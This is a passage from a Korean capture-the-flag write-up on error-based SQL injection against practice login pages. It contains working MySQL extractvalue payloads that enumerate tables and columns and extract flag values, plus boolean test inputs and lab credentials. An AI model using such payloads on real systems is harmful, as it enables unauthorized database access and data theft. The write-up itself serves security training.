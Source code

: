 > 데이터베이스 이름: **sqli_2_1**

- 이제 데이터베이스 이름을 바탕으로, **테이블명부터 컬럼, 최종 데이터**까지 차례로 추출해볼 것이다.

```html
' or extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='sqli_2_1' limit 0,1))) and '1'='1
```

> 테이블 이름: **flag_table**

- 이어서, 해당 테이블의 컬럼 정보도 순차적으로 추출해보자.

```
' or extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema='sqli_2_1' and table_name='flag_table' limit ?,1))) and '1'='1
```

- 컬럼을 추출해본 결과, 테이블에는 `flag1`, `flag2`, `...`, `flag8`과 같은 이름의 컬럼들이 존재하였다.

이제 각 컬럼을 하나씩 조회하여, **실제 데이터 값을 추출**해보겠다.

```html
' or extractvalue(1,concat(0x7e,(select flag1 from flag_table limit 0,1))) and '1'='1
```

위 페이로드를 활용하여 `flag1`부터 `flag8`까지의 컬럼 값을 순차적으로 조회하였다.
그 결과, **각 컬럼에 저장된 값들을 조합하여 최종 플래그를 완성**할 수 있었다.

---

### SQL Injection 5

- 이번 문제 역시 이전과 동일한 로그인 화면으로 시작된다.
> 계정 : normaltic / 1234

- 로그인에 성공할 경우에는 `302 리다이렉션`, 실패할 경우에는 `200 OK 응답`이 반환된다.

이를 기반으로, SQL 인젝션이 가능한지 테스트를 진행해보겠다.

```html
normaltic' and '1'='1
normaltic' and '1'='2
```
> **아까와 똑같다.**

이를 기반으로, **Error Based SQL Injection 공격**을 진행해보겠다.

```html
' or extractvalue(1,concat(0x7e,database())) and '1'='1
```

**실행 결과:**

![sqli4 database](./screenshots/sqli4_database.png)
